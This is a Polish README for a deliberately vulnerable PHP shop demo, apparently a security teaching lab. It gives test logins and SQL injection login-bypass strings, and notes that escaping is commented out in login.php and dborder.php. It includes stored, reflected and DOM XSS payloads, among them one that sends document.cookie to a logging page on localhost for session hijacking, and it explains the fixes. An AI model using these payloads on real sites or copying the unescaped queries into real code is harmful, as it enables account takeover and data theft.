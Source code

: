 Potrzebne loginy  (poza tym dołączam zrzut bazy danych z potrzebnymi tabelami do logowania i składania zamówień. Hasła userów w czystej formie, niezahashowane. Nazwa bazy danych ustawiona na s130719 w pliku connect.php w zmiennej $dbName. W razie potrzeby zmienić)
admin:12345
klient:12345

___
SQL Injection
___
Przy niezabezpieczonej stronie można w formularzu logowania przekazać swoje zapytanie SQL. Znając username da się zalogować bez hasła. Np dla username "admin", może wyglądać to tak- admin ' -- (admin, spacja, apostrof, spacja, 2 myślniki, spacja)
Nie znając username można metodą prób i błędów próbować odgadnąć nazwy kolumn w tabeli i próbować zalogować np. poprzez id (może równie dobrze być mail jeśli jest znany atakującemu)
' OR id=1 -- 

Zabezpieczenie- w pliku login.php jest fragment gdzie zakomentowane są zabezpieczenia

        $login = $_POST['login'];
        $password = $_POST['password'];

    //    $login = htmlentities($login, ENT_QUOTES, "UTF-8");
    //    $password = htmlentities($password, ENT_QUOTES, "UTF-8");



        $sql = "SELECT * FROM users WHERE user='$login' AND pass='$password'";

        if ($result = @$conn->query($sql))
      //      sprintf("SELECT * FROM users WHERE user='%s' AND pass='%s'",
      //      mysqli_real_escape_string($conn,$login),
      //      mysqli_real_escape_string($conn,$password))))

Odkomentować je (i przy ifie usunąć fragment "$sql))"  . Będzie wyglądać to tak jak niżej. Można równie dobrze zakomentować/usunąć linię ze zmienną $sql bo nie jest już używana. Zapytanie jest bezpośrednio w ifie ze zmiennymi przepuszczonymi dodakowo przez mysqli_real_escape_string())


        $login = $_POST['login'];
        $password = $_POST['password'];

        $login = htmlentities($login, ENT_QUOTES, "UTF-8");
        $password = htmlentities($password, ENT_QUOTES, "UTF-8");



        $sql = "SELECT * FROM users WHERE user='$login' AND pass='$password'";

        if ($result = @$conn->query(
            sprintf("SELECT * FROM users WHERE user='%s' AND pass='%s'",
            mysqli_real_escape_string($conn,$login),
            mysqli_real_escape_string($conn,$password))))


htmlentities()- zmienia potencjalnie niebezpieczne znaki na encje html (np < zostaje zmienione na &lt; . Przy wyświetlaniu, HTML pokaże też znak < ale nie zinterpretuje go jako otwieranie tagu przy próbie wpisania tagów html. <script> zostanie zmienione na &lt;script&gt;

mysqli_real_escape_string()   - dodaje \ przed potencjalnie niebezpiecznymi znakami. Np '  (zostaje zapisane jako \' dzięki czemu apostrof nie jest traktowany jako zakończenie stringa, tylko jako jego część)

____________________________________________________________

XSS-
Wykorzystuje brak lub luki w sanityzacji i walidacji inputu usera. W najprostszej postaci polega na wbiciu swojego kodu javascript w tagach <script> w miejscu gdzie mogą na niego wpaść potencjalne ofiary (tablice ogłoszeniowe, profile użytkownika i inne)


Stored XSS:
Na tej stronie przykładowo klient w formularzu zamówień po zalogowaniu może do szczegółów zamówienia wpisać swój skrypt przykładowo tutaj: <script>window.location.replace("http://localhost/test.php?cookie="+document.cookie);</script>
W takim wypadku w bazie danych zostaje zapisany ten skrypt, admin po wejściu na listę zamówień otrzymuje w tej liście z zaufanego serwera złośliwy kod który zostaje wykonany przez przeglądarkę. W tym wypadku zostaje przekierowany na podstronę test.php i do zmiennej cookie zapisane zostanie cookie obecnej sesji użytkownika. 
test.php który zapisuje cookie, ip, przeglądarkę i godzinę przechwycenia i zapisuje te dane w logi.txt
Widnieje wtedy tam przykładowo takie zapisane PHPSESSID "PHPSESSID=uftg02hvsde3vg1fj8qjvtglpe".
Atakujący mając id sesji ofiary może ustawić to id u siebie przykładowo poprzez wpisanie w konsoli przeglądarki: document.cookie = "PHPSESSID=uftg02hvsde3vg1fj8qjvtglpe"  i odświeżenie strony. O ile ofiara nie wylogowała swojego konta (wylogowując się, zamyka się najczęsćiej sesję usuwając zmienne sesyjne) to atakujący ma wtedy pełny dostęp do takiego konta.
PHPSESSID może być nazwane w inny sposób, nie zawsze jest na pierwszy rzut oka oczywiste która zmienna to phpsessid zapisane w cookie.
Poza tym drugą drogą przekazywania zmiennej sesyjnej może być document.location.href (link w przeglądarce).

Reflected XSS:
W tym wypadku złośliwy skrypt nie jest zapisany na serwerze na stałe, ale jest odsyłany przez serwer w odpowiedzi na zapytanie. W tym wypadku atak najczęściej polega na skłonieniu ofiary do kliknięcia w odpowiednio przygotowany link.
Tutaj dla przykładu strona 404.php (http://localhost/404.php) wyświetla informację o błędzie not found jednocześnie wyświetlając błędny odnośnik Not found: /404.php.
W takim wypadku można do takiej strony spróbować dodać swój skrypt przykładowo: http://localhost/404.php?<script>alert("test");</script>. Skrypt taki może być także napisany w taki sposób by przenosił na stronę która jak test.php przechwytuje dane ofiary po przeniesieniu.

DOM Based XSS:
w pliku form.php mamy prosty formularz z okienkiem wyboru. Okienko wyboru wstępnie wyświetla opcję domyślną zawartą w linku
http://localhost/form.php?default=French
Atakujący taką stronę może w linku zamieścić kod javascriptu. 
http://localhost/form.php?default=<script>alert(document.cookie)</script>
Niezabezpieczona strona, po wyświetleniu treści przez taki link wykona skrypt atakującego.

________________________



Dla przykładu zabezpieczenia user inputu w oknie zamówień- W pliku dborder.php jest fragment kodu z zakomentowanym przepuszczeniem zmiennej $opis przez htmlentities (wystarczy usunąć komentarz)

$opis = $_POST['desc'];
$idClient = $_SESSION['id'];
// $opis = htmlentities($opis, ENT_QUOTES, "UTF-8");

htmlentites będzie tutaj najprostszą (ale nie jedyną) metodą zabezpieczenia poprzez podmienienie określonych znaków na encje html. (inne języki programowania i ich frameworki do tworzenia aplikacji internetowych będą miały inne metody od tego)
Dodatkowo można zastosować escaping user input (wcześniej wspomniane przy mysqli_real_escape_string) przy wszelkich encjach HTML, URL czy javascriptu (jeśli nie chcemy pozwolić użytkownikom na używanie kodu na stronie)
Walidacja inputu usera- nie pozwalać na używanie określonych znaków w inpucie

Jeśli chcemy pozwolić użytkownikom na używanie pewnych tagów htmla (na przykład img żeby pozwolić im wstawiać obrazy) trzeba zwrócić uwagę na niektóre atrybuty i nie zezwalać na ich używanie. Przykładowo w tagu img można umieścić atrybut onerror="" który także może wywołać niebezpieczny kod javascriptu, więc samo zabronienie używania tagów <script> nie wystarczy.
